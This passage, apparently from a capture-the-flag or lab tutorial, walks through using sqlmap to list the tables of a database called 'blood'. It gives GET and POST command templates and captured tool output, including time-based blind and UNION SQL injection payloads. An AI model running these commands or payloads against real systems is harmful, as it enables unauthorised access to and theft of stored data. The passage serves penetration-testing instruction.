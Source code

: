 Now that we have the databases, let's extract tables from the database **blood**.

#### Using GET based Method

```
sqlmap -u https://testsite.com/page.php?id=7 -D blood --tables
```

```
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables
```

#### Using POST based Method

```
sqlmap -r req.txt -p blood_group -D blood --tables
```

```
sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables
```

Once we run these commands, we should get the tables.

```
           
4bo@4yman$ sqlmap -r req.txt -p blood_group -D blood --tables
[19:35:57] [INFO] parsing HTTP request from 'req.txt'
[19:35:57] [INFO] resuming back-end DBMS 'mysql'
[19:35:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
---
[19:35:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[19:35:58] [INFO] fetching tables for database: 'blood'
[19:35:58] [WARNING] reflective value(s) found and filtering out
Database: blood
[3 tables]
+----------+
| blood_db |
| flag     |
| users    |
+----------+
```
